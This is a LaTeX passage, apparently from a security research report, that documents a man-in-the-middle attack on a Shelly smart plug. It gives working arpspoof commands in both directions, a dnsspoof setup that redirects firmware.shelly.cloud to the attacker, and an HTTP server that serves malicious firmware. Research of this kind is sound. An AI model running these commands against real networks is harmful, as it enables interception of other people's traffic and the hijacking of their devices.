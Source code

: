 \begin{enumerate}
    \item \textbf{ARP Poisoning (Gateway $\rightarrow$ Device)}: The \texttt{arpspoof} tool was used to poison the ARP cache of the local gateway (192.168.1.1), causing it to associate the Shelly's IP address (192.168.1.19) with the attacker's MAC address. This ensures that all packets the gateway intends to send to the Shelly are instead routed through the attacker's machine:

    \begin{bashcode}
sudo arpspoof -i wlo1 -t 192.168.1.1 192.168.1.19    
    \end{bashcode}
     
\item \textbf{ARP Poisoning (Device $\rightarrow$ Gateway)}: Symmetric ARP poisoning was executed in the opposite direction, forcing the Shelly device to route all its \emph{outbound} traffic (including DNS queries and HTTP requests) through the attacker's machine:

    \begin{bashcode}
sudo arpspoof -i wlo1 -t 192.168.1.19 192.168.1.1        
    \end{bashcode}

    \noindent \textit{Note}: The syntax of \texttt{arpspoof} is \texttt{arpspoof [-i interface] [-t target] host}, where \texttt{-i} specifies the network interface, \texttt{-t} specifies the victim to which the modified ARP packets are sent, and \texttt{host} specifies the host to impersonate.

    \item \textbf{DNS Spoofing}: The \texttt{dnsspoof} tool was configured with a custom \texttt{hosts.txt} file to intercept the Shelly's DNS queries for \texttt{firmware.shelly.cloud} and respond with the attacker's local IP address (192.168.1.20). 
    
    \medskip
    \noindent This is the pivotal step. When the device resolves the official update server's hostname, it receives the attacker's IP instead

    \begin{bashcode}
echo '192.168.1.20 firmware.shelly.cloud' > hosts.txt
sudo dnsspoof -i wlo1 -f hosts.txt        
    \end{bashcode}

    
    \item \textbf{HTTP Server}: A Python HTTP server was launched on port 80 to serve the malicious firmware archive (\texttt{SHPLG-S.zip}) from a directory structure that \emph{mirrors the expected Shelly cloud endpoint} (\texttt{/gen1/SHPLG-S.zip}). This ensures the device can download the file from the exact URL path it expects

    \begin{bashcode}
sudo python3 -m http.server 80
    \end{bashcode}
\end{enumerate}

